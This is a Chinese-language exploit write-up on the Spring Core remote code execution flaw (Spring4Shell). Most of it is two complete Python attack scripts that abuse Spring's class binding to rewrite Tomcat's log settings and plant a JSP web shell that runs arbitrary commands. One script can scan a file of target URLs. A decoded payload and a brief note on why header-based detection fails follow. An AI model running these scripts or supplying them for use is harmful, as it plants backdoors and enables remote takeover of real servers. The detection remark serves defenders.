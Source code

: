 ## 原理

## payload1


	#coding:utf-8
	
	import requests
	import argparse
	from urllib.parse import urljoin
	
	def Exploit(url):
	    headers = {"suffix":"%>//",
	                "c1":"Runtime",
	                "c2":"<%",
	                "DNT":"1",
	                "Content-Type":"application/x-www-form-urlencoded"
	
	    }
	    data = "class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat="
	    try:
	
	        go = requests.post(url,headers=headers,data=data,timeout=15,allow_redirects=False, verify=False)
	        shellurl = urljoin(url, 'tomcatwar.jsp')
	        shellgo = requests.get(shellurl,timeout=15,allow_redirects=False, verify=False)
	        if shellgo.status_code == 200:
	            print(f"漏洞存在，shell地址为:{shellurl}?pwd=j&cmd=whoami")
	    except Exception as e:
	        print(e)
	        pass
	
	
	
	
	def main():
	    parser = argparse.ArgumentParser(description='Srping-Core Rce.')
	    parser.add_argument('--file',help='url file',required=False)
	    parser.add_argument('--url',help='target url',required=False)
	    args = parser.parse_args()
	    if args.url:
	        Exploit(args.url)
	    if args.file:
	        with open (args.file) as f:
	            for i in f.readlines():
	                i = i.strip()
	                Exploit(i)
	
	if __name__ == '__main__':
	    main()

攻击载荷：

![](spring.png)

将请求体url解码：

	class.module.classLoader.resources.context.parent.pipeline.first.pattern=%{c2}i if("j".equals(request.getParameter("pwd"))){ java.io.InputStream in = %{c1}i.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } } %{suffix}i&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=

发现请求体根据java的动态特性，%{c2} 获取 请求头中设定的值，这就代表，请求头中的奇怪的header 并不能作为通用特征！

## payload2

	# Author: @Rezn0k
	# Based off the work of p1n93r
	
	import requests
	import argparse
	from urllib.parse import urlparse
	
	
	def run_exploit(url, directory, filename):
	    headers = {
	        "prefix": "<%",
	        "suffix": "%>//",
	        # This may seem strange, but this seems to be needed to bypass some check that looks for "Runtime" in the log_pattern
	        "c": "Runtime",
	        "Content-Type": "application/x-www-form-urlencoded"
	    }
	
	    log_pattern = "class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bprefix%7Di%20" \
	           f"java.io.InputStream%20in%20%3D%20%25%7Bc%7Di.getRuntime().exec(request.getParameter" \
	           f"(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B" \
	           f"%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%25%7Bsuffix%7Di"
	
	    log_file_suffix = "class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp"
	    log_file_dir = f"class.module.classLoader.resources.context.parent.pipeline.first.directory={directory}"
	    log_file_prefix = f"class.module.classLoader.resources.context.parent.pipeline.first.prefix={filename}"
	    log_file_date_format = "class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat="
	
	    data = "&".join([log_pattern, log_file_suffix, log_file_dir, log_file_prefix, log_file_date_format])
	
	    try:
	        # Run exploit
	        requests.post(url, headers=headers, data=data, timeout=15, allow_redirects=False, verify=False)
	    except Exception as e:
	        print(e)
	        pass
	
	
	def main():
	    parser = argparse.ArgumentParser(description='Spring Core RCE')
	    parser.add_argument('--url',help='target url', required=True)
	    parser.add_argument('--file', help='File to write to [no extension]', required=False, default="shell")
	    parser.add_argument('--dir', help='Directory to write to. Suggest using "webapps/[appname]" of target app',
	                        required=False, default="webapps/ROOT")
	
	    file_arg = parser.parse_args().file
	    dir_arg = parser.parse_args().dir
	    url_arg = parser.parse_args().url
	
	    filename = file_arg.replace(".jsp", "")
	
	    if url_arg is None:
	        print("Must pass an option for --url")
	        return
	
	    try:
	        run_exploit(url_arg, dir_arg, filename)
	        print("[+] Exploit completed")
	        print("[+] Check your target for a shell")
	        print("[+] File: " + filename + ".jsp")
	
	        if dir_arg:
	            location = urlparse(url_arg).scheme + "://" + urlparse(url_arg).netloc + "/" + filename + ".jsp"
	        else:
	            location = f"Unknown. Custom directory used. (try app/{filename}.jsp?cmd=id"
	        print(f"[+] Shell should be at: {location}?cmd=id")
	    except Exception as e:
	        print(e)


	if __name__ == '__main__':
    	main()

这个payload2 印证了上文的观点。

此payload是作者写的，原文在

```https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities/```

## payload3

get url 注入，原理差不多，都是利用set 向属性设置值，然后影响给tomcat 日志设置格式的文件，这个文件恰好被作为wshell。

![](1.png)